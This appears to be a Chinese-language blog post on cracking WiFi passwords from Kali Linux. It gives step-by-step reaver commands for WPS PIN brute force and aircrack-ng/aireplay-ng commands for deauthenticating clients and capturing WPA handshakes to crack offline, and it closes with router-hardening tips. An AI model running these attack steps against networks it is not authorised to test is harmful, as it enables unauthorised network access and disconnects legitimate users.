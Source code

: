 ```yaml
---
title: Kali系统下WiFi密码破解
date: 2015-11-01 11:01:00
category: OS
tags: 
    - Kali
---
```


在网络渗透中,能够接入被攻击者的网络至关重要,只要黑客接入你的网络,利用DNS欺骗,arp攻击等各种钓鱼技术,基本上就能获取一切信息,WIFI网络的安全性重要性不言而喻!

手机上有很多类似360免费WIFI和WIFI万能钥匙的软件,可以"破解"WIFI密码,实际上这类软件不是"破解"而是"偷"密码,这类软件在安装的时候会自动上传你家的WIFI密码,也有可能是你一不小心分享出去的!分享之后别人使用软件就能连上你家的WIFI了,一般来说,商家WIFI比较多。

<!--more-->

## 常见的WIFI破解技术有2种:

攻击测试环境:kali linux 64位,可以安装双系统,如果用虚拟机的话必须要用外置USB网卡!

### 1.PIN

该技术主要利用路由器的wps功能的bug,PIN 码分前4 和后4，先破前4 只有最多一万个组合，破后4 中的前3 只有一千个组合，一共就是一万一千个密码组合。 10 的4 次方+10 的3 次方=11000 个密码组合。当reaver 确定前4 位PIN 密码后，其任务进度数值将直接跳跃至90.9%以上，也就是说只剩余一千个密码组合了。总共一万一千个密码!

主要攻击工具:reaver,该工具十分强大,有很多配置参数,这里只列出最简单的攻击步骤,仅供参考:
```
1.airmon-ng start wlan0 #启动网卡的监听模式
2.airodump-ng wlan0mon  #查看周围区域所有WIFI信号情况
3.reaver -i wlan0mon -b AP_MAC -vv  #开始pin
4.reaver -i wlan0mon -b AP_Mac -p WPS_PIN  #得到pin值获取密码
```

>其实现在很多路由器都关闭了wps功能,所以没法pin,而且很多新的路由器都是防pin!

### 2.暴力穷尽破解

该技术理论上只要计算机计算能力够强大,没有什么密码破解不了!只是时间长短的问题.先抓握手包然后跑包!

主要工具: aircrack-ng
```
1.airmon-ng check kill        #kill一些无关进程
2.airmon-ng start wlan0       #开启网卡监听模式
3.airodump-ng wlan0mon        #查看周围区域所有WIFI信号情况
4.airodump-ng -c 信道 --bssid 目标mac -w wep wlan0mon   #开始抓包
5.airodump-ng -c 信道 --bssid 目标mac wlan0mon  #查看当前环境的WiFi连接情况
6.aireplay-ng --deauth 10000 -a 目标mac -c 客户端mac wlan0mon   #对连接到目标ap的客户端攻击,使其掉线,抓取握手包!
```

备注:抓包的关键是第6步抓取握手包,所谓握手包就是对方设备掉线后重新连接WIFI时候的数据包,只要抓到握手包就可以了。

拿到握手包后切换到windows系统,用EWSA等软件跑包,跑包速度看机器配置,主要是看显卡配置,本人笔记本i7+gt750M,一秒钟2万次,其实也看运气,如果是弱密码,分分钟钟的事情,如果是包含字母\标点符号\特殊符号的密码......那几乎不可能!

### 3.防备措施:
1. 不要安装 xxx免费WIFI等软件,如果不小心把密码分享出去的话,只能改密码了!

2. 关闭路由器wps功能.此功能大部分人都用不到

3. 隐藏ssid.这样别人就搜不到你家的WIFI信号，虽然用途并不大

4. 使用复杂密码,包含字母\标点符号\特殊符号!这招最有效
